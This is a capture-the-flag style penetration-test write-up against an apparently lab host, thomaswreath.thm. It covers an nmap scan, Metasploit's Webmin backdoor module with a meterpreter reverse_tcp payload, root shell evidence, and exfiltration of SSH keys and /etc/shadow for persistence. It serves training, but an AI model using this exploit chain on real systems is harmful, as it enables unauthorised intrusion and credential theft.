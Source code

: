 ## 10.200.185.200

### Initial Information
The target is publicly available and an IP address was provided.

Our goal is to compromise the exposed target and establish a base from which further penetration into the private network is possible.

## Enumeration
### NMAP Scans

```bash
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN 10.200.185.200
```

revealed 4 open TCP ports:

| port | service |
| --- | --- |
| tcp:22 | SSH | 
| tcp:80 | HTTP | 
| tcp:443 | HTTPS |
| tcp:9090 | zeus-admin |
| tcp:10000 | MiniServ 1.890 (Webmin httpd) |

### port 22
* OpenSSH 8.0 (protocol 2.0)
* no further action

### port 80 / 443
* both ports produce a failed redirect to thomaswreath.thm, indicating incorrectly configured DNS.
* adding this entry to the attacker `hosts` configuration file allows onward access to the underlying website:
```
10.200.185.200 thomaswreath.thm
```
* the pages contain personal information for Mr Thomas Wreath including: history of career and education, interests, personal contact information, a photo of the individual.

### port 10000
* webmin service is exposed and version reported is 1.89
* navigating to this location confirms the presence of a webmin login portal

  ![webmin](assets/images/webmin_portal.png "webmin portal")
* a search against exploit-db shows a vulnerability for webmin version <1.920<sup>[1]</sup> which allows unauthenticated remote code execution.

## Initial Exploitation
A metasploit module is available for the webmin vulnerability - use of which provides root access to the machine with the following configuration:

```
Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:po
                                         rt[,type:host:port][...]
   RHOSTS     10.200.185.200   yes       The target host(s), see https://gith
                                         ub.com/rapid7/metasploit-framework/w
                                         iki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface
                                         to listen on. This must be an addres
                                         s on the local machine or 0.0.0.0 to
                                          listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing conne
                                         ctions
   SSLCert                     no        Path to a custom SSL certificate (de
                                         fault is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (def
                                         ault is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  xx.xx.xxx.xx     yes       The listen address (an interface may be
                                     specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)
```

## Evidence
```bash
[root@prod-serv ~]$ hostname; whoami; ip a
prod-serv
root
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:38:98:fb:ba:d7 brd ff:ff:ff:ff:ff:ff
    inet 10.200.185.200/24 brd 10.200.185.255 scope global dynamic noprefixroute eth0
       valid_lft 2735sec preferred_lft 2735sec
    inet6 fe80::38:98ff:fefb:bad7/64 scope link 
       valid_lft forever preferred_lft forever

```

## Establishing Persistence
Our scans had previously revealed that SSH access to the box was possible. Investigation of the `/root` directory revealed a `.ssh` folder containing keys which could be used for remote access.  This directory was exfiltrated for future connections.

The `/etc/shadow` file was exfiltrated for investigation.

## Move Laterally
Determining hosts **prod-serv** has connected to:
```bash
[root@prod-serv ~]$ arp -a
ip-10-200-185-1.eu-west-1.compute.internal (10.200.185.1) at 02:81:d2:e0:8a:a3 [ether] on eth0

```




---
##### [1] https://www.exploit-db.com/exploits/47230, accessed 2021-12-27 